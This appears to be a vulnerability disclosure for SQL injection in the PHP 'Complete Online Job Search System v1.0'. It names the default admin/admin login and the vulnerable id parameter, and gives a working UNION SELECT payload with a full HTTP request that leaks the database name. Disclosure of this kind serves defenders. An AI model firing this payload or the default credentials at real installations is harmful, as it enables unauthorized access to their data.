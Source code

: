 # Complete Online Job Search System v1.0 has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/employee/index.php?view=edit&id=

Vulnerability location: /eris/admin/employee/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/employee/index.php?view=edit&id=-2018001%27%20union%20select%201,2,database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--+ // Leak place ---> id

```sql
GET /eris/admin/employee/index.php?view=edit&id=-2018001%27%20union%20select%201,2,database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849129-04da1989-84f1-4cf0-b785-e7e0c0812995.png)

![image](https://user-images.githubusercontent.com/54017627/170849125-542c71ad-f9d0-4227-b190-144a72c8a07b.png)
